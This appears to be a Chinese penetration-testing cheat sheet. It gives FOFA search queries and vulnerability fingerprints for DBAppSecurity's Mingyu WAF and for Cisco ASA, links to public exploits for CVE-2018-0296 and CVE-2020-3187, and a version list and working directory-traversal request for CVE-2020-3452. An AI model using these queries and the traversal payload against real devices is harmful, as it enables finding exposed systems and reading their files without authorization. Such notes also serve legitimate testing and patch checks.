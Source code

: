 #### 安恒 明御WEB应用防火墙 

FOFA：

```
app="安恒信息-明御WAF"
```

##### report.php 任意用户登录✅

漏洞指纹：

```
/report.m?a=rpc-timed
/system.m?a=reserved
```

#### Cisco ASA

```
app="CISCO-ASA-5520"
```

##### 拒绝服务/敏感信息获取 CVE-2018-0296

exp：

- https://github.com/yassineaboukir/CVE-2018-0296
- https://github.com/milo2012/CVE-2018-0296

##### 任意文件删除 CVE-2020-3187

exp：

- https://packetstormsecurity.com/files/158648/Cisco-Adaptive-Security-Appliance-Software-9.7-Arbitrary-File-Deletion.html

##### 目录穿越/任意文件读取 CVE-2020-3452

漏洞影响

```
Cisco ASA 设备影响版本：
<9.6.1
9.6 < 9.6.4.42
9.71
9.8 < 9.8.4.20
9.9 < 9.9.2.74
9.10 < 9.10.1.42
9.12 < 9.12.3.12
9.13 < 9.13.1.10
9.14 < 9.14.1.10
```

```
/+CSCOT+/translation-table?type=mst&textdomain=/%2bCSCOE%2b/portal_inc.lua&default-language&lang=../
```
